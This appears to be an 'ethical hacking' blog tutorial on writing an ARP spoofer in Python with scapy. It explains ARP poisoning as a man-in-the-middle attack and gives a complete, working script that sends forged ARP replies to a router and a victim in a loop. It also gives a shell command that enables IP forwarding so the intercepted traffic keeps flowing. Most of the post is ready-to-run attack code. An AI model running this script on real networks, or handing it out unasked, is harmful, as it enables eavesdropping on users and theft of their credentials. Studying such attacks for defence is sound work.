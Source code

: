 ```yaml
---
title: Writing an ARP spoofer using python
date: 2020-12-17 13:56:24 GMT+2
categories: [Development, Pentesting Tools]
tags: [ethical hacking, python]     # TAG names should always be lowercase
image: /assets/img/posts/arpspoofer/arpspoofer.png
---
```


## What is Address Resolution Protocol (ARP) ?
Simple protocol used to map IP address of a machine to its MAC address, and vice versa.

## What is ARP spoofing ?
An ARP spoofing, also known as ARP poisoning, is a Man in the Middle (MitM) attack that allows attackers to intercept communication between two parties either to secretly eavesdrop or modify traffic traveling between the two. Attackers might use MitM attacks to steal login credentials or personal information, spy on the victim, or sabotage communications or corrupt data. The attack works as follows:
1. The attacker try to gain access to the network, then scan the network to find the IP addresses of his victims. For example the IP address of PC and router.
2. The attacker uses any spoofing tool (such as arpspoof) to send out forged ARP responses. 
3. The forged responses trick the PC by sending the attacker's MAC address as the router's MAC address, and trick the router by sending the attacker's MAC address as the PC's MAC address. This fools both router and PC to connect to the attacker’s machine, instead of to each other.
4. The two devices update their ARP cache entries. After that, the communication is going through the attacker machine instead of directly with each other.
5. The attacker is now secretly in the middle of all communications.

![MitM](/assets/img/posts/arpspoofer/mitm.jpg)

## Writing the script

### Step 1: Importing required modules

* scapy: is a powerful Python-based interactive packet manipulation program and library. It is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, store or read them using pcap files, match requests and replies, and much more.
* sys: Lets us access system-specific parameters and functions.
* time: provides many ways of representing time in code. It also provides functionality other than representing time, like waiting during code execution and measuring the efficiency of your code.

```python
# Python code snippet
import scapy.all as scapy
import sys
import time
```

### step 2: Asking user for required arguments

We ask user to enter router ip and target ip as first and second command arguments respectively. Then we get the MAC address of both by calling get_mac_address function that we will implement later.

```python
# Python code snippet
router_ip = str(sys.argv[1])
target_ip = str(sys.argv[2])
router_mac = str(get_mac_address(router_ip))
target_mac = str(get_mac_address(target_ip))
```

### step 2: Implementing required functions

### get_mac_address() function

get_mac_address function takes one parameter "ip_address". We use this function to create our packet that consists of Ether layer takes destination broadcast MAC address 'ff:ff:ff:ff:ff:ff' and ARP layer takes the IP address of either target or router. Then we combine the two layers together to get our final packet. We use scapy.srp() function to send our packet. This function returns a list that contains answers and unanswers, so we put at the end index zero to select the first element which is answers. Then we return the MAC address of the specified IP address. The answer variable has a bunch of lists, so we need to set that we want the first list "[0]" that contains our packet then from this list we want the response that have the MAC address of our target/router "[1].hwsrc".

```python
def get_mac_address(ip_address):
    broadcast_layer = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    arp_layer = scapy.ARP(pdst=ip_address)
    get_mac_packet = broadcast_layer/arp_layer
    answer = scapy.srp(get_mac_packet, timeout=2, verbose=False)[0]
    return answer[0][1].hwsrc
```

### spoof() function

spoof function takes four parameters "router_ip", "target_ip, "router_mac", and "target_mac". This function is reponsible of spoofing by sending ARP response packet1 to the router as it comes from the target (for example, regular user on the network) and sending ARP response packet2 to the target as it comes from the router.
>**Note:** in the scapy.ARP() function, op=2 for ARP response and op=1 for ARP request.

```python
# Python code snippet
def spoof(router_ip, target_ip, router_mac, target_mac):
    packet1 = scapy.ARP(op=2, hwdst=router_mac, pdst=router_ip, psrc=target_ip)
    packet2 = scapy.ARP(op=2, hwdst=target_mac, pdst=target_ip, psrc=router_ip)
    scapy.send(packet1)
    scapy.send(packet2)
```

### Step3: Calling spoof() function

We launch an infinite while loop and call the spoof function to send packet1 and packet2 then we sleep 2 seconds between each packet that we sent. We handle the exception of KeyboardInterrupt, so we can terminate the program safely.

```python
# Python code snippet
try:
    while True:
        spoof(router_ip, target_ip, router_mac, target_mac)
        time.sleep(2)
except KeyboardInterrupt:
    print('Closing ARP Spoofer.')
    exit(0)
```

## The complete script

After assembling all the steps together, here is the final complete script.

>**Note:** before running the program, we need to enable packet forwarding to forward packets from one target to another. So we run this command first in our terminal.
```bash
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

```python
import scapy.all as scapy
import sys
import time

def get_mac_address(ip_address):
    broadcast_layer = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    arp_layer = scapy.ARP(pdst=ip_address)
    get_mac_packet = broadcast_layer/arp_layer
    answer = scapy.srp(get_mac_packet, timeout=2, verbose=False)[0]
    return answer[0][1].hwsrc

def spoof(router_ip, target_ip, router_mac, target_mac):
    packet1 = scapy.ARP(op=2, hwdst=router_mac, pdst=router_ip, psrc=target_ip)
    packet2 = scapy.ARP(op=2, hwdst=target_mac, pdst=target_ip, psrc=router_ip)
    scapy.send(packet1)
    scapy.send(packet2)

target_ip = str(sys.argv[2])
router_ip = str(sys.argv[1])
target_mac = str(get_mac_address(target_ip))
router_mac = str(get_mac_address(router_ip))

try:
    while True:
        spoof(router_ip, target_ip, router_mac, target_mac)
        time.sleep(2)
except KeyboardInterrupt:
    print('Closing ARP Spoofer.')
    exit(0)
```
